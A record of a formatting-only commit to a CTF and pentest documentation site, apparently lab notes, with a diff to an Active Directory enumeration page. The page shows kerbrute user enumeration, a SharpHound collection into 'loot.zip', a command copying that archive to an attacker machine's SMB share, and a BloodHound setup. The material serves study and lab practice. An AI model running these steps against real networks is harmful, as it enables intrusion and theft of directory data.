

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/active-directory/03-enumeration.md, in a window 1280 px wide and 900 px high, scrolled down 1384 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
small fixes

```diff
--- a/docs/pentest/active-directory/03-enumeration.md
+++ b/docs/pentest/active-directory/03-enumeration.md
@@ -67,11 +67,11 @@ $ kerbrute userenum --dc 10.10.169.152 -d spookysec.local userlist.txt
 3. Using exectuable version :
 	1. Start SharpHound collection : `.\SharpHound.exe -d CONTROLLER.local --zipfilename loot.zip`
 4. Download the archive result on your attacker machine : `copy .\20220219102531_loot.zip \\10.9.52.138\tmpshare\loot.zip`
-5. Run neo4j server : `sudo docker run --rm -p 7474:7474 -p 7687:7687 -e NEO4J_AUTH=neo4j/toto -v /tmp/neo4j/data:/data neo4j
+5. Run neo4j server : `sudo docker run --rm -p 7474:7474 -p 7687:7687 -e NEO4J_AUTH=neo4j/toto -v /tmp/neo4j/data:/data neo4j`
 6. Run BloodHound : Download release and execute `./BloodHound-linux-x64/BloodHound`
-	- Host : bolt://localhost:7687
-	- Username : neo4j
-	- Password : toto
+	- Host : `bolt://localhost:7687`
+	- Username : `neo4j`
+	- Password : `toto`
 7. Drag and drop `loot.zip` into `Bloodhound`.
 
 You can run pre-defined queries by clicking on `<menu burger icon>`, then `Analysis` and finally on the queries you want to execute.
```
